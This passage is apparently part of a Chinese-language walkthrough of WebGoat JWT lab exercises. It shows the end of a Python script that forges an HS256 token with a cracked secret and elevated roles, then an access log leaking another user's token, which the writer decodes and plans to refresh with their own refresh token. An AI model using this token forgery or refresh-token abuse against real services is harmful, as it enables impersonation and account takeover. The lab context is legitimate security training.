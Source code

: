 ```python
    encoded_signature = base64url_encode(signature)  
    token = f"{encoded_header}.{encoded_payload}.{encoded_signature}"  
    return token

payload = {"iss":"WebGoat Token Builder","aud":"webgoat.org","iat":int(datetime.datetime.now(datetime.timezone.utc).timestamp()) + 824770,"exp":int(datetime.datetime.now(datetime.timezone.utc).timestamp()) + 825770,"sub":"tom@webgoat.org","username":"WebGoat","Email":"tom@webgoat.org","Role":["Manager","Project Administrator"]}
secret_key = "washington"
head256 = {"alg": "HS256"}

token = generate_token(secret_key, head256, payload)  
print(token)
```

### 2.6 刷新令牌

#### 2.6.1 基本信息

![](../images/Pasted%20image%2020241205103250.png)

漏洞的介绍大概是，访问令牌过期用刷新令牌刷新，但是刷新时没有校验这两个令牌是否属于同一个人
于是出现了用测试刷新令牌刷新实际用户的过期访问令牌，拿到了实际用户最新的访问令牌

日志文件
```log
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "GET /JWT/refresh/checkout?token=eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q HTTP/1.1" 401 242 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/moveToCheckout HTTP/1.1" 200 12783 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/login HTTP/1.1" 200 212 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "GET /JWT/refresh/addItems HTTP/1.1" 404 249 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
195.206.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/moveToCheckout HTTP/1.1" 404 215 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36" "-"
```

看起来有一个token
```
eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q
```

算法是HS512，信息是
```
{"iat":1526131411,"exp":1526217811,"admin":"false","user":"Tom"}
```

也许我可以拿我的刷新令牌，刷新这个Tom的令牌，然后用Tom的新令牌干事情
